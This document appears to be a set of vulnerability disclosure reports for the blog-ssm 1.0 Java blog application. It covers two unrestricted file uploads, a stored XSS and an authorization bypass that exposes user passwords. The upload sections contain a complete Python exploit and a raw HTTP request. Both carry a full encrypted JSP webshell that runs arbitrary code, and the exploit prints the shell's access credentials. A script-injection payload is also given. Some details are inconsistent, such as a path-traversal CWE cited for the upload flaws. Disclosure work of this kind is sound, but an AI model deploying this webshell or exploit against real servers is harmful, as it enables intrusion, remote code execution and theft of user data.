

## Unrestricted Upload of File with Dangerous Type

#### [Suggested description]

blog-ssm v1.0 was found to contain an arbitrary file upload vulnerability via the component /upFile. This vulnerability allows an attacker to escalate privileges and execute arbitrary commands through a crafted file.

#### [Vulnerability Type]

Unrestricted Upload of File with Dangerous Type

#### [Vendor of Product]

https://github.com/rawchen/blog-ssm

#### [Affected Product Code Base]

1.0

#### [Affected Component]

blog-ssm 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### [Attack Vector]

##### Step1:After a code audit, it was found that /xxx has unauthorized access and arbitrary file uploads.


##### Step2:Build EXP according to the code audit results, and run it to get the URL address of WebShell: http://localhost:8081/upload/blog/20220901/1662015136678.jsp


###### EXP:

```python
import requests

# Configure the target URL.
Host = "localhost:8081"
Path = "upFile"
Url = "http://{Host}/{Path}".format(Host=Host, Path=Path)
# Configure Headers.
Headers = {"sec-ch-ua-mobile": "?0",
           "sec-ch-ua-platform": "\"Windows\"",
           "Upgrade-Insecure-Requests": "1",
           "Origin": "http://{Host}".format(Host=Host),
           "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryNOyNFd8trb922Qzd",
           "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) "
                         "Chrome/104.0.0.0 Safari/537.36",
           "Connection": "close"}
# Configure Data, where the WebShell key is KEY, the password is Pass, the payload is JavaDynamicPayload,
# and the encryptor is JAVA_AES_BASE64.
Data = "------WebKitFormBoundaryNOyNFd8trb922Qzd\r\nContent-Disposition: form-data; name=\"editormd-image-file\"; " \
       "filename=\"text.jsp\"\r\n" \
       "Content-Type: image/jpeg\r\n\r\n" \
       "<%! String xc=\"3c6e0b8a9c15224a\"; String pass=\"pass\"; String md5=md5(pass+xc); class X extends " \
       "ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, " \
       "cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance(" \
       "\"AES\");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),\"AES\"));return c.doFinal(s); }catch " \
       "(Exception e){return null; }} public static String md5(String s) {String ret = null;try {" \
       "java.security.MessageDigest m;m = java.security.MessageDigest.getInstance(\"MD5\");m.update(s.getBytes(), 0, " \
       "s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {" \
       "}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = " \
       "null;try {base64=Class.forName(\"java.util.Base64\");Object Encoder = base64.getMethod(\"getEncoder\", " \
       "null).invoke(base64, null);value = (String)Encoder.getClass().getMethod(\"encodeToString\", new Class[] { " \
       "byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName(" \
       "\"sun.misc.BASE64Encoder\"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass(" \
       ").getMethod(\"encode\", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception " \
       "e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] " \
       "value = null;try {base64=Class.forName(\"java.util.Base64\");Object decoder = base64.getMethod(" \
       "\"getDecoder\", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod(\"decode\", " \
       "new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { " \
       "base64=Class.forName(\"sun.misc.BASE64Decoder\"); Object decoder = base64.newInstance(); value = (byte[" \
       "])decoder.getClass().getMethod(\"decodeBuffer\", new Class[] { String.class }).invoke(decoder, new Object[] { " \
       "bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(" \
       "pass));data=x(data, false);if (session.getAttribute(\"payload\")==null){session.setAttribute(\"payload\"," \
       "new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute(\"parameters\"," \
       "data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((" \
       "Class)session.getAttribute(\"payload\")).newInstance();f.equals(arrOut);f.equals(" \
       "pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(" \
       "base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (" \
       "Exception e){}\r\n%>\r\n" \
       "------WebKitFormBoundaryNOyNFd8trb922Qzd--\r\n"
response = requests.post(Url, headers=Headers, data=Data)
# Output WebShell address and connection information.
Path = response.json()['url']
Url = "http://{Host}{Path}".format(Host=Host, Path=Path)
print("Web_Shell_Url:{Url}".format(Url=Url))
print("Web_Shell_Key:{Key}".format(Key="key"))
print("Web_Shell_Pass:{Pass}".format(Pass="pass"))
print("Web_Shell_Payload:{Payload}".format(Payload="JavaDynamicPayload"))
print("Web_Shell_Encryptor:{Encryptor}".format(Encryptor="JAVA_AES_BASE64"))
```

##### Step3:Connect to the Trojan via http://localhost:8081/upload/blog/20220901/1662015136678.jsp.


#### [Attack Type]

Remote

#### [Impact Code execution]

True

#### [Reference(s)]

http://cwe.mitre.org/data/definitions/23.html


## Unrestricted Upload of File with Dangerous Type

#### [Suggested description]

blog-ssm v1.0 was found to contain an arbitrary file upload vulnerability via the component /uploadFileList. This vulnerability allows an attacker to escalate privileges and execute arbitrary commands through a crafted file.

#### [Vulnerability Type]

Unrestricted Upload of File with Dangerous Type

#### [Vendor of Product]

https://github.com/rawchen/blog-ssm

#### [Affected Product Code Base]

1.0

#### [Affected Component]

blog-ssm 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### [Attack Vector]

##### Step1:Registered account, username: text123, password: 123456.


##### Step2:Log in to the account you just registered and click "File Management".




##### Step3:Click File Upload, select the Trojan file that has been built in advance, and click Upload.


###### Data Pack

```bash
POST /uploadFileList HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------352203683622881217472510347558
Content-Length: 2854
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/adminFile
Cookie: JSESSIONID=F68B6E11EB57F40C26C413029E832793
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------352203683622881217472510347558
Content-Disposition: form-data; name="files[]"; filename="text.jsp"
Content-Type: application/octet-stream

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
-----------------------------352203683622881217472510347558--
```

##### Step4:In /file, click text.jsp to get the URL address of WebShell: http://localhost:8081/upload/file/text.jsp.


##### Step5:Connect to the Trojan via http://localhost:8081/upload/file/text.jsp.


#### [Attack Type]

Remote

#### [Impact Code execution]

True

#### [Reference(s)]

http://cwe.mitre.org/data/definitions/23.html


## Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

#### [Suggested description]

blog-ssm v1.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the component /comment. This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the notifyInfo parameter.

#### [Vulnerability Type]

Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

#### [Vendor of Product]

https://github.com/rawchen/blog-ssm

#### [Affected Product Code Base]

1.0

#### [Affected Component]

blog-ssm 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### [Attack Vector]

##### Step1:Registered account, username: text123, password: 123456.


##### Step2:Log in to the account you just registered and click "File Management".


##### Step3:Click any article on the homepage and enter malicious Javascript code in the comment area.


###### Data Pack:

```bash
POST /comment HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/articles/blog-ssm
Cookie: JSESSIONID=F68B6E11EB57F40C26C413029E832793
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

contentId=65&commentText=%3Cscript%3Ealert%28%22123%22%29%3C%2Fscript%3E
```

##### Step4:Visit the article again to trigger a stored XSS attack.


#### [Attack Type]

Remote

#### [Impact Code execution]

True

#### [Reference(s)]

https://cwe.mitre.org/data/definitions/79.html


## Improper Authorization

#### [Suggested description]

blog-ssm v1.0 was found to contain an unauthorized access vulnerability through the component /adminGetUserList. This vulnerability allows an attacker to obtain sensitive user information by bypassing permission checks.

#### [Vulnerability Type]

Improper Authorization of Index Containing Sensitive Information

#### [Vendor of Product]

https://github.com/rawchen/blog-ssm

#### [Affected Product Code Base]

1.0

#### [Affected Component]

blog-ssm 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### [Attack Vector]

##### Step1:After a code audit, it was found that /adminGetUserList had unauthorized access and exported sensitive user information, such as account names and passwords.


##### Step2:注册账号，用户名:text123，密码:123456。


##### Step3:Log in to the account you just registered and access /adminGetUserList to obtain sensitive information such as password.


#### [Attack Type]

Remote

#### [Impact Code execution]

False

#### [Reference(s)]

https://cwe.mitre.org/data/definitions/285.html

